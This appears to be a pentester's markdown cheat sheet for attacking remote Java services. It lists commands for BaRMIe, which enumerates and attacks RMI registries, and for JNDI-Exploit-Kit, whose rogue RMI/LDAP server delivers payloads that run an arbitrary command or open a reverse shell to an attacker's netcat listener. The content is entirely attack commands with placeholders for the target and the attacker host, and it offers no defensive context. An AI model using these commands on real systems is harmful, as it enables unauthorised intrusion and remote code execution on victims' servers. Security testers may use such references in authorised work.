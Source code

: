 # Java
#plateform/linux #target/remote

## Java RMI scanner enum
#cat/RECON #tag/rmi
Enumeration mode (-enum) extracts details of objects that are exposed through an RMI registry service and lists any known attacks that affect the endpoint.
https://github.com/NickstaDB/BaRMIe/
```
java -jar BaRMIe.jar -enum <target> <port>
```

## Java RMI scanner attack
#tag/ATTACK/EXPLOIT #tag/rmi
Attack mode (-attack) first enumerates the given targets, then provides a menu system for launching known attacks against RMI services.
https://github.com/NickstaDB/BaRMIe/
```
java -jar BaRMIe.jar -attack <target> <port>
```

## JNDI Exploit Kit
#tag/ATTACK/EXPLOIT #tag/jndi
Multipurpose RMI and ldap server for payload delivery via RMI
https://github.com/pimps/JNDI-Exploit-Kit
```
java -jar JNDI-Injection-Exploit-all.jar -C "<command>" 
```

## JNDI Exploit Kit
#tag/ATTACK/EXPLOIT #tag/jndi
Multipurpose RMI and ldap server for payload delivery via RMI. The ldap and rmi server will deliver a payload that either execute a command or gives a reverse shell to a netcat server.
https://github.com/pimps/JNDI-Exploit-Kit
```
java -jar JNDI-Injection-Exploit-all.jar -R "<nc_server>:<port>"
```

